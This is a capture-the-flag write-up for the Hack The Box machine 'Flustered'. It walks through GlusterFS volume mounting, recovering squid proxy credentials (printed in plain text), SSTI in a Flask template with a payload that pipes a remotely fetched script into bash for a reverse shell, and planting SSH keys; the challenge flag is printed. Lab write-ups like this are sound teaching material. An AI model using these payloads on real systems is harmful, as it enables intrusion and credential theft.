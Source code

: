 # Flustered (Full Pwn)

## User

Starting with port scanning using nmap.

![nmap_scan](1.png)

We see a lot of ports open. In port 80 we see an empty webpage, fuzzing didn't help too. In 3128 there is http-proxy which might be useful later. We can't find anything interesting on most open ports. Searching the ports one by one we get an interesting result at the first link we find about 24007 port.

![google_glusterfs](2.png)

GlusterFS is a scale-out network-attached distributed storage file system. So we can mount the remote filesystem to our machine . We can install it using apt. Using gluster command we can list volumes from the remote machine.

` gluster --remote-host=10.129.96.25 volume list `

![gluster_list](3.png)

With ` volume info ` we can see more informations about the volumes. Now we mount the volumes to our system to enumerate for more information.

` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `

![gluster_list](7.png)

We can't mount the vol1.

![gluster_list](8.png)

We get the error cause we miss the ssl certificates to mount them. We mount the vol2 successfully. We can see a mysql directory and searching inside we can't find anything useful. In squid directory there is a file passwd.ibd and inside we found credentials.

![gluster_list](9.png)

We can use the credentials at squid proxy to see internal services in the machine. Using foxy proxy we navigate to 127.0.0.1 to see an nginx default page. Using proxychains to fuzz the web page. Edit the /etc/proxychains4.conf file to comment last line and the new one :
` http <IP> 3128 lance.friedman o>WJ5-jD<5^m3 `
Now we use proxychains command to go through squid proxy and fuzz the web page.
` proxychains -q wfuzz -c -w /usr/share/wordlists/dirb/big.txt --hc 404,400,403 -R5 -u http://127.0.0.1/FUZZ `
We discover an /app directory, but we get 403 forbidden, so fuzzing again the /app for more directories and files. Testing for .py files we got an app.py and got to the url and we prompt to download the file. Reading the source code we understand that it's the source code for the first web page out of the proxy. We can see that in title tag a function inside curly braces so can try ssti there to see if it's vulnerable.

![ssti_test](10.png)

And we get command execution. So we can get reverse shell in the machine with the following payload:

` {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.38:8000/rev.sh | bash').read()}} `

We get reverse shell as www-data. Searching in /etc/ssl we find the certificates to access the vol1. We copy the files to our /etc/ssl/ directory and then mount the vol1 from gluster.
` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `
Now we can go to directory gfsvol to see the directories we mounted.

![vol1](4.png)

There is a directory named jennifer, probably a user of the remote machine, where we can see it's files. Inside there is the user.txt flag so we can read it.

![jennifer_dir](6.png)

**HTB{m0v1Ng_tHr0ugH_v0lUm3s_l1K3_a_jInj4}**

As it is a shared filesystem we can create our ssh keys and create the authorized_keys file to ssh into the machine.
